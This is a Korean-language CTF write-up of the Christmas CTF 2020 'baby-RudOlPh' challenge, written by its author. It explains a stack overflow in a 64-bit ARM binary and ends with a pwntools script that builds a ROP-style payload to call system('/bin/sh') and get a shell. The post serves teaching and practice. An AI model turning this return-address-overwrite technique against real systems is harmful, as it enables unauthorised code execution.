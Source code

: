 ```yaml
---
title: "[Write-Up] Christmas CTF 2020 - baby-RudOlPh"
author: L0ch
tags: [L0ch, ctf, write-up, christmas ctf]
categories: [Write-Up]
date: 2020-12-29 21:00:00
cc: true
index_img: 2020/12/29/l0ch/baby_rudolph/1.png
---
```

baby_RudOlPh는 baby 시리즈 답게 이번 Christmas CTF에서 가장 많은 솔버가 나왔던 문제 중 하나입니다.
![](baby_rudolph/1.png)

바이너리를 받고 보호기법과 아키텍쳐를 확인해보면 64bit ARM이고, NX bit만 걸려있는걸 확인할 수 있습니다.



![](baby_rudolph/2.png)
분석해보면 vuln이라는 함수를 대놓고 줍니다. read 함수를 호출하는데 0x100만큼 받아서 stack overwflow가 발생하네요



![](baby_rudolph/3.png)

`get_arm` 함수를 보면 첫 번째 인자의 값이 `0x1225` 면 `system("/bin/sh")`을 실행해 쉘을 획득할 수 있습니다.



![](baby_rudolph/4.png)







`ARMmaker` 함수에는 인자를 세팅 할 수 있는 gadget이 있네요.

1. `vuln` 의 return address를 `ARMmaker`의 gadget으로 overwrite
2. gadget을 통해 인자를 `0x1225`로 세팅하고 `get_arm` 호출
3. get shell!



# Exploit

```python
from pwn import *

p = process("./baby_RudOlPh")
context.log_level = "debug"
p.recvuntil("\\n")

payload = b"A"*72
payload += p64(0x400724)
payload += p64(0x1225) + b"A"*16
payload += p64(0x400738)

p.sendline(payload)
p.interactive()
```

![](baby_rudolph/5.png)



뉴비용 포너블 문제를 내려는데 그냥 내면 심심해서 64bit ARM으로 내봤습니다 ㅎㅎ 역시 많은 분들이 풀어주셨습니다! 

(문제 만드는 시간보다 도커에 세팅하는데 드는 시간이 더 오래 걸렸던 건 비밀..)